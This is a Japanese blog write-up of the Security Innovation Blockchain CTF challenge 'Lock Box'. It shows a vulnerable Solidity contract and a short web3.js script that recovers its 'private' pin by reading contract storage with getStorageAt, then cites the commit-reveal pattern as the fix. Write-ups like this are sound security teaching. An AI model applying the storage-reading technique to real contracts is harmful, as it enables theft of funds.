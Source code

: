 +++
title = "Security Innovation Blockchain CTF - Lock Box"
date = "2022-06-01"
tags = [
    "security",
    "ctf",
]
+++

#### 概要

[Security Innovation Blockchain CTF](https://blockchain-ctf.securityinnovation.com/)

Security Innovationという企業が開催している、常設のCTFがあります。
今回は、[Lock Box](https://blockchain-ctf.securityinnovation.com/#/game/8)という問題を解きました。

#### 問題

問題を開くと、以下のような画面が出てきます。

ピンを入力してUnlockボタンを押すと、スマートコントラクトが保有している資産を取得できるというアプリのようです。

<img src=./dapps.png><br>

#### ソースコードを読む

constructorではアンロックするためのpinが生成されており、unlock関数で資金を送金するというコードのようです。

unlock関数はpinを受け取り、constructorで生成したpinと同一であれば、資金が送金されるようです。

```solidity
pragma solidity 0.4.24;

import "../CtfFramework.sol";

contract Lockbox1 is CtfFramework{

    uint256 private pin;

    constructor(address _ctfLauncher, address _player) public payable CtfFramework(_ctfLauncher, _player) {
        pin = now%10000;
    }

    function unlock(uint256 _pin) external ctf{
        require(pin == _pin, "Incorrect PIN");
        msg.sender.transfer(address(this).balance);
    }
}
```

#### エクスプロイト

この問題を解くには、`uint256 private pin`として格納されているpinを取得出来る必要があります。
この変数はブロックチェーン上に保存されるものなので、読み取り可能です。

web3.jsを使って書いたエクスプロイトは以下の通りです。
`getStorageAt`という関数を使ってpinを取り出しています。


```solidity
const Web3 = require('web3')
const HDWalletProvider = require("@truffle/hdwallet-provider")

require('dotenv').config()

const web3 = new Web3(new HDWalletProvider(process.env.PRIVATE_KEY, process.env.PROVIDER_URL))
web3.eth.getStorageAt("0x258e6ed1bebd27f05dc466993edd9720ceb3877a", 1).then(storage => console.log(parseInt(storage)))
```

#### どう実装されているべきか

Commit-Revealというパターンを使うことで、ブロックチェーンに機密を保存出来るようです。

- https://karl.tech/learning-solidity-part-2-voting/
- https://medium.com/layerx-jp/smart-contract-design-pattern-34a6401fe743
